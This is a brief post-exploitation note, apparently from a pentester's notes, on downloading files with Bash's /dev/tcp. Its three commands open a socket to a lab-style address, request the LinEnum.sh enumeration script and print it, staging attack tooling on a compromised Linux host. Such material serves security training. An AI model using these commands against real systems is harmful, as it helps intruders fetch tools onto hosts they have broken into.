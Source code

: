 ## Download with Bash (/dev/tcp)

There may also be situations where none of the well-known file transfer tools are available. As long as Bash version 2.04 or greater is installed (compiled with --enable-net-redirections), the built-in /dev/TCP device file can be used for simple file downloads.
#### Connect to the Target Webserver

```bash
exec 3<>/dev/tcp/10.10.10.32/80
```
#### HTTP GET Request

```bash
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3
```
#### Print the Response

```bash
cat <&3
```
# Tags
> #Post-Exploitation #Linux-Post-Exploitation #File-Transfers #bash